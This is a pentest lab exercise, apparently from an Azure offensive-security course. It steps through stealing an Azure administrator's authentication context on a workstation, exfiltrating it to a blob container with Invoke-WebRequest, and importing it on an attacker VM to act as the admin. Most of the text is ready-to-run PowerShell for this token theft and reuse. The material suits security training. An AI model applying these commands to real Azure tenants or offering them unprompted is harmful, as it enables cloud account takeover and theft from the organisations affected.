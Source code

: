 


## Hands-on exercise – stealing and reusing tokens from an authenticated Azure admin system
In this exercise, we will be exporting cached tokens from the system of an authenticated Azure admin user and reusing those tokens on our pentest VM. Here are the tasks that we will complete in this exercise:

### Task 1 - Review the information for this exercise

1. On your pentest VM, browse to the following path **`C:\Users\pentestadmin\Desktop\ExerciseFiles\Modules\03`** and open the file named **`admin-token-theft-info.txt`** for later reference. There are six values that you will find in the file:
   * **Azure Admin User - Username**: This is the Azure administrator username whose token will be stolen from a workstation.
   * **Azure Admin User - Password**: This is the password of the Azure administrator user whose credential will be stolen.
   * **VM Public IP**: The public IP of the Admin workstation VM that the token will be stolen from.
   * **VM Admin Username**: The local user that you will use to authenticate to the workstation.
   * **VM Admin User Password**: The password of the local user that you will use to authenticate to the workstation.
   * **Exfiltration Storage Location**: The blob container that you will exfiltrate the stolen credential to and download it from for reuse from your pentest VM.

### Task 2 - Connect to the victim's PC and exfiltrate the token (Windows)
1. Open an RDP client on your PC and connect to the **`VM Public IP`** listed in your exercise file. When prompted to authenticate, use the **`VM Admin Username`** value as the username and the **`VM Admin User Password`** value as the password.

2. Within the RDP session to VM, open a PowerShell console and authenticate to Azure as the victim admin using the following commands:
   * Replace the placeholders for **`AZURE_ADMIN_USER_PASSWORD`** and **`AZURE_ADMIN_USER_USERNAME`** with the actual values from your exercise file.
```
$SecurePassword = ConvertTo-SecureString "AZURE_ADMIN_USER_PASSWORD" -AsPlainText -Force

$Credential = New-Object System.Management.Automation.PSCredential ("AZURE_ADMIN_USER_USERNAME>", $SecurePassword)

Connect-AzAccount -Credential $Credential
```

3. Verify authentication using the following command:
* The command lists all the resource groups in the victim's Azure environment. If you get an error, verify that you have the correct username and password.
```
Get-AzResourceGroup
```

4. At this point, we can act as an attacker with an active session on the system and save the current context for exfiltration to another system for reuse.

5. Save the current authentication context and verify that the context has been saved using the following commands:
```
Save-AzContext -Path azureprofile.json
Get-ChildItem azureprofile.json
```

6. Compress the saved authentication context and verify using the following commands:
```
7z a azureprofile.zip azureprofile.json
Get-ChildItem azureprofile.zip
```

7. Exfiltrate the compressed authentication context to the blob container listed in your exercise file, using the following command. Replace the placeholder with the value of Exfiltration Storage Location. Ensure that there are no line breaks before pasting this. You should get an HTTP 201 response:
```
Invoke-WebRequest -Method 'PUT' -Uri 'TOKEN_EXFILTRATION_STORAGE_LOCATION' -InFile 'azureprofile.zip' -Headers @{"x-ms-blob-type"="BlockBlob"} -UseBasicParsing
```

### Task 4 - Reuse the stolen token from your pentest VM
* In this task, we will used the exfiltrated context to gain access as the user in another environment

1. Switch back to your pentest VM, open a PowerShell console. 

2. Verify that you currently do not have a connection to the victim's Azure environment by using the following commands. You should get an error message. The first command **`Disconnect-AzAccount`** logs you out of your own Azure environment if you have authenticated previously.
```
Disconnect-AzAccount 

Get-AzResourceGroup
```

3. Download and verify the exfiltrated context file using the following command. Replace the placeholder with the value of Exfiltration Storage Location that you copied from the script's output:
```
Invoke-WebRequest -Uri "TOKEN_EXFILTRATION_STORAGE_LOCATION" -OutFile azureprofile.zip

Get-ChildItem azureprofile.zip
```
    
4. Extract the downloaded file using the following command and verify the extracted file:
```
7z e azureprofile.zip
Get-ChildItem -Filter azureprofile.*
```

5. Restore the authentication context to your pentest VM using the following command:
```
Import-AzContext -Path .\azureprofile.json
```

6. Verify that the context has successfully been applied to your pentest VM by running commands with the stolen admin authentication context. At this point, you have validated that an authentication context can be stolen from an administrator's system, exported, and reused from an attacker's system:
```
Get-AzResourceGroup
```

